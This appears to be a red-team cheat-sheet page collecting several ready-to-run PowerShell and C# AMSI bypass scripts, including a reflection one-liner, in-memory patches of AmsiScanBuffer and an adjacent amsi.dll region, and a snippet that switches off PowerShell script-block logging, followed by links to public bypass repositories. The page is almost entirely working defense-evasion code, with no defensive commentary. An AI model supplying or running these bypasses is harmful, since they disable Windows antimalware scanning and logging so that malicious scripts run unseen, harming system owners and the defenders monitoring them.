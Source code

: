 # AMSI Bypass

Search Tag(s): #helpers #malware-development #defense-evasion

## Matt Graebers

`$ cat matt-graebers-amsi-bypass.ps1`

---

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Rasta Mouse

`$ cat rasta-mouse-amsi-bypass.ps1`

---

```powershell
$API = @"  
using System;  
using System.Runtime.InteropServices;  
public class Win32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName)  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out lpflOldProtect)  
}  
"@  
Add-Type $API  
$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")  
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")  
$oldprotect = 0  
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$oldprotect)  
$Patch = [Byte[]] (0xb8, 0x57, 0x00, 0x80, 0xc3)  
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

## Am0nSec

`$ cat am0nsec-amsi-bypass.ps1`

---

```powershell
$API = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class Kernel32 {  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string lpLibFileName);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type $API  
  
Class Hunter {  
    static [IntPtr] FindAddress([IntPtr]$address, [byte[]]$egg) {  
        while ($true) {  
            [int]$count = 0  
  
            while ($true) {  
                [IntPtr]$address = [IntPtr]::Add($address, 1)  
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {  
                    $count++  
                    If ($count -eq $egg.Length) {  
                        return [IntPtr]::Subtract($address, $egg.Length - 1)  
                    }  
                } Else { break }  
            }  
        }  
  
        return $address  
    }  
}  
  
[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")  
Write-Host "[+] AMSI DLL Handle: $hModule"  
  
[IntPtr]$dllCanUnloadNowAddress = [Kernel32]::GetProcAddress($hModule, "DllCanUnloadNow")  
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"  
  
If ([IntPtr]::Size -eq 8) {  
    Write-Host "[+] 64-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp  
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx  
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp  
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi  
        0x57,                   # push    rdi  
        0x41, 0x56,             # push    r14  
        0x41, 0x57,             # push    r15  
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h  
    )  
} Else {  
	Write-Host "[+] 32-bits process"  
    [byte[]]$egg = [byte[]] (  
        0x8B, 0xFF,             # mov     edi,edi  
        0x55,                   # push    ebp  
        0x8B, 0xEC,             # mov     ebp,esp  
        0x83, 0xEC, 0x18,       # sub     esp,18h  
        0x53,                   # push    ebx  
        0x56                    # push    esi  
    )  
}  
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)  
Write-Host "[+] Targeted address: $targetedAddress"  
  
$oldProtectionBuffer = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null  
  
$patch = [byte[]] (  
    0x31, 0xC0,    # xor rax, rax  
    0xC3           # ret    
)  
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)  
  
$a = 0  
[Kernel32]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$a) | Out-Null
```

## Adam Chester

`$ cat adam-chester-amsi-bypass.ps1`

---

```powershell
$Patch = @"  
using System;  
using System.Runtime.InteropServices;  
  
public class patch  
{  
    // https://twitter.com/_xpn_/status/1170852932650262530  
    static byte[] x64 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };  
    static byte[] x86 = new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };  
  
    public static void it()  
    {  
        if (is64Bit())  
            PatchAmsi(x64);  
        else  
            PatchAmsi(x86);  
    }  
  
    private static void PatchAmsi(byte[] patch)  
    {  
        try  
        {  
            var lib = Win32.LoadLibrary("amsi.dll");  
            var addr = Win32.GetProcAddress(lib, "AmsiScanBuffer");  
  
            uint oldProtect;  
            Win32.VirtualProtect(addr, (UIntPtr)patch.Length, 0x40, out oldProtect);  
  
            Marshal.Copy(patch, 0, addr, patch.Length);  
            Console.WriteLine("Patch Sucessfull");  
        }  
        catch (Exception e)  
        {  
            Console.WriteLine(" [x] {0}", e.Message);  
            Console.WriteLine(" [x] {0}", e.InnerException);  
        }  
    }  
  
    private static bool is64Bit()  
        {  
            bool is64Bit = true;  
  
            if (IntPtr.Size == 4)  
                is64Bit = false;  
  
            return is64Bit;  
        }  
}  
  
class Win32  
{  
    [DllImport("kernel32")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport("kernel32")]  
    public static extern IntPtr LoadLibrary(string name);  
  
    [DllImport("kernel32")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
}  
"@  
  
Add-Type -TypeDefinition $Patch -Language CSharp  
[patch]::it()
```

## Cobbr

```powershell
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings', 'NonPublic,Static');
If ($GroupPolicyField) {
    $GroupPolicyCache = $GroupPolicyField.GetValue($null);
    If ($GroupPolicyCache['ScriptBlockLogging']) {
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0;
        $GroupPolicyCache['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0;
    }
    $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptBlockLogging', 0);
    $val.Add('EnableScriptBlockInvocationLogging', 0);
    $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'] = $val
};
```

---
## References

- [AMSI Bypass Methods](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

- [Amsi Bypass Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

- [AmsiScanBufferBypass](https://github.com/rasta-mouse/AmsiScanBufferBypass)

- [Memory Patching AMSI Bypass](https://rastamouse.me/memory-patching-amsi-bypass/)

- [Cobbr: ScriptBlockLogBypass](https://gist.github.com/cobbr/d8072d730b24fbae6ffe3aed8ca9c407)

- [How to Bypass AMSI and Execute ANY Malicious Powershell Code](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)

- [PayloadsAllTheThings: Windows - AMSI Bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20AMSI%20Bypass.md)